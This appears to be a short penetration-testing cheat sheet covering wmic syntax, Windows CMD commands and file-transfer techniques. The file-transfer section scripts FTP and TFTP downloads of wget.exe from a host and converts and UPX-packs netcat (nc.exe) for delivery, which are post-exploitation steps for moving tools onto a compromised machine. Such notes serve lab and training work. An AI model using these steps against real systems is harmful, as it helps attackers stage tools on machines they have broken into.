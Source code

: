 ### wmic

```text
 wmic [alias] [where] [verb]

#aliases
- process
- share
- startup
- service
- nicconfig
- useraccount
- qfe

#where
- where name=""

#verbs
- list
- get
- call
- delete

wmic process list full
```

### File Transfers

```text
#FTP
echo open 192.168.1.101 21> ftp.txt
echo USER asshat>> ftp.txt
echo mysecretpassword>> ftp.txt
echo bin>> ftp.txt
echo GET wget.exe>> ftp.txt
echo bye>> ftp.txt

ftp -v -n -s:ftp.txt

#TFTP
atftpd --daemon --port 69 /tftp
tftp -i 192.160.1.101 GET wget.exe

#debug
#dis assemble nc
wine exe2bat.exe nc.exe nc.txt
upx -9 nc.exe
```

### CMD

```text
#elevate
runas /user:Administrator@DOMAIN

# Restart
shutdown /r /t 0

#show environment
set

#Counting Loop:

for /L %i in
([start],[step],[stop]) do [command]
```